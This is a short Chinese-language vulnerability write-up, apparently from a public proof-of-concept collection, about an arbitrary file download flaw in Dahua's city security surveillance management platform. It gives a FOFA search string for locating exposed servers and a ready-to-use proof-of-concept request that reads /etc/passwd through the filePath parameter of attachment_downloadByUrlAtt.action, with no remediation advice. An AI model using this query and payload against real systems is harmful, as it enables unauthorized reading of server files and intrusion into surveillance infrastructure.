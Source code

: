 # 大华 城市安防监控系统平台管理 attachment_downloadByUrlAtt.action 任意文件下载漏洞

## 漏洞描述

大华城市安防监控系统平台管理存在任意文件下载漏洞，攻击者通过漏洞可以下载服务器上的任意文件

## 漏洞影响

大华城市安防监控系统平台管理

## FOFA

```
"attachment_downloadByUrlAtt.action"
```

## 漏洞复现

登录页面

![image-20230704113653161](./images/image-20230704113653161.png)

验证POC

```
/portal/attachment_downloadByUrlAtt.action?filePath=file:///etc/passwd
```

![image-20230704113705975](./images/image-20230704113705975.png)